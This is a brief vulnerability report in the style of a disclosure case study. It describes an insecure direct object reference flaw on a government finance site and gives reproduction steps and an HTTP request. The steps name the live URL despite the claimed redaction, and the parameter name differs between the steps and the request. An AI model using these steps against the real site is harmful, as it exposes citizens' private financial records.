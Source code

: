 # 🐞 Vulnerability Report - Case Study

## 🔍 Target:
[REDACTED] (Public Government Website)

## 🛠️ Type of Vulnerability:
- Broken Authentication (IDOR)
- Information Disclosure
- Unauthenticated Access to Private Data

## 📋 Steps to Reproduce:
1. Visit: `https://finance.jharkhand.gov.in/viewBill?billNo=1001`
2. Without login, change `billNo` to `1002`, `1003`, etc.
3. You will see financial details of other users


## 🔐 PoC (Proof of Concept):

```http
GET /viewBill?billID=12345 HTTP/1.1
Host: [REDACTED]

